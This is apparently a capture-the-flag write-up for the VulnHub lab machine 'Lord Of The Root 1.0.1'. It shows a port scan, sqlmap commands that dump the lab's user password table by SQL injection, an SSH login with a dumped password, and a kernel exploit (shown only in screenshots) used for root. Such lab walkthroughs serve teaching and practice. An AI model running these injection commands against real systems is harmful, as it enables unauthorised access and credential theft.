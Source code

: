 ```yaml
---
title: Load of the Root 1.0.1
categories: [VulnHub]
tags: [PrivEsc]
---
```

# Load of the root



## **Description ⤵️**


💡 [Lord Of The Root: 1.0.1](https://vulnhub.com/entry/lord-of-the-root-101,129/) →

I created this machine to help others learn some basic CTF hacking strategies and some tools. I aimed this machine to be very similar in difficulty to those I was breaking on the OSCP.

This is a boot-to-root machine will not require any guest interaction.

There are two designed methods for privilege escalation.

- 23/09/2015 == v1.0.1
- 22/09/2015 == v1.0

---

If you are having issues with VirtualBox, try the following:

- Downloaded LordOfTheRoot_1.0.1.ova (confirmed file hash)
- Downloaded and installed VMWare ovftool.
- Converted the OVA to OVF using ovftool.
- Modified the OVF using text editor, and did the following:
    
    replaced all references to "ElementName" with "Caption" replaced the single reference to "vmware.sata.ahci" with "AHCI"
    
- Saved the OVF. +Deleted the .mf (Manifest) file. If you do not you get an error when importing, saying the SHA does not match for the OVF (I also tried modifying the hash, but no luck).
- Try import the OVF file, and it should work fine.

Source: https://twitter.com/dooktwit/status/646840273482330112



Let’s find the IP Address first >>

![103-1.png](/Vulnhub-Files/img/Load_of_the_root/103-1.png)

```bash
IP : 10.0.2.23
```

## Port Scan Results ➡️

![104-2.png](/Vulnhub-Files/img/Load_of_the_root/104-2.png)

![104-1.png](/Vulnhub-Files/img/Load_of_the_root/104-1.png)

```bash
OPEN PORTS >
22   SSH
1337 HTTP
```

---

## Web Enumeration ⤵️

![105-1.png](/Vulnhub-Files/img/Load_of_the_root/105-1.png)

![105-2.png](/Vulnhub-Files/img/Load_of_the_root/105-2.png)

![105-3.png](/Vulnhub-Files/img/Load_of_the_root/105-3.png)

```bash
THprM09ETTBOVEl4TUM5cGJtUmxlQzV3YUhBPSBDbG9zZXIh
```

![105-4.png](/Vulnhub-Files/img/Load_of_the_root/105-4.png)

```bash
Closer!
```

![105-5.png](/Vulnhub-Files/img/Load_of_the_root/105-5.png)

![105-6.png](/Vulnhub-Files/img/Load_of_the_root/105-6.png)

Sqlmap →

```bash
commands →
sqlmap -o -u http**://**10.0.2.23**:**1337**/**978345210**/**index.php --form --dbs --l
```

![105-7.png](/Vulnhub-Files/img/Load_of_the_root/105-7.png)

![105-8.png](/Vulnhub-Files/img/Load_of_the_root/105-8.png)

```bash
Command → 
sqlmap -o -u http://10.0.2.23:1337/978345210/index.php --form --dbms m
```

![105-9.png](/Vulnhub-Files/img/Load_of_the_root/105-9.png)

```bash
+----+------------------+----------+

| id | password         | username |

+----+------------------+----------+

| 1  | iwilltakethering | frodo    |

| 2  | MyPreciousR00t   | smeagol  |

| 3  | AndMySword       | aragorn  |

| 4  | AndMyBow         | legolas  |

| 5  | AndMyAxe         | gimli    |

+----+------------------+----------+
```

Now lets try SSH login →

```bash
MyPreciousR00t
```

![106-1.png](/Vulnhub-Files/img/Load_of_the_root/106-1.png)

Now lets check the kernel version →

![106-2.png](/Vulnhub-Files/img/Load_of_the_root/106-2.png)

I found on web →

![106-3.png](/Vulnhub-Files/img/Load_of_the_root/106-3.png)

![106-4.png](/Vulnhub-Files/img/Load_of_the_root/106-4.png)

Let is try it out →

I got it →

![106-5.png](/Vulnhub-Files/img/Load_of_the_root/106-5.png)

Flag.txt →

![106-6.png](/Vulnhub-Files/img/Load_of_the_root/106-6.png)

---

# **Summery Notes →**

→ sqlmap

→ post exploit can be done with exploiting kernel or ,

→ Buffer Overflow